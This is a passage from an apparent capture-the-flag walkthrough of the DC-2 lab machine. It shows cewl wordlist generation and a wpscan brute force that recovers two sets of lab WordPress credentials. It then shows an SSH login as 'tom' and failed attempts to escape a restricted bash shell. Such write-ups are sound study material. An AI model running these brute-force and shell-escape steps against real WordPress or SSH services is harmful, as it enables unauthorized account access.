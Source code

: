 ~~~
kali@kali:/data/DC-2/files$ cewl -w dict.txt -d 3 http://dc-2/index.php/
CeWL 5.4.8 (Inclusion) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
~~~

Now provided with a users list as well as a custom dictionary, we're good to perform a brute force attack:

~~~
kali@kali:/data/DC-2/files$ wpscan --url http://dc-2 -U users.txt -P dict.txt 

[REDACTED]

[!] Valid Combinations Found:
 | Username: jerry, Password: adipiscing
 | Username: tom, Password: parturient

[REDACTED]

~~~

We are provided with 2 valid credentials.

## Connect as `jerry`

Go to http://wp-admin/ and connect with `jerry:adipiscing`. Then, go to "Pages > All pages" and click on the page called "Flag 2".

## Second flag

Here is the content of the "Flag 2" page:

~~~
Flag 2:

If you can't exploit WordPress and take a shortcut, there is another way.

Hope you found another entry point.
~~~

# Flag 3

## SSH connection

As we haven't been able to find the `admin`'s password, we can't use the usual exploits against Wordpress to make a reverse shell. Let's instead try to authenticate against the SSH service, using the credentials found previously. It works for `tom`:

~~~
kali@kali:/data/DC-2/files$ sshpass -p "parturient" ssh tom@dc-2 -p 7744

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Oct  6 09:42:07 2020 from 172.16.222.128
tom@DC-2:~$ id
-rbash: id: command not found
tom@DC-2:~$ python -c "import pty;pty.spawn('/bin/bash')"
-rbash: python: command not found
tom@DC-2:~$ python3 -c "import pty;pty.spawn('/bin/bash')"
-rbash: python3: command not found
tom@DC-2:~$ 
~~~
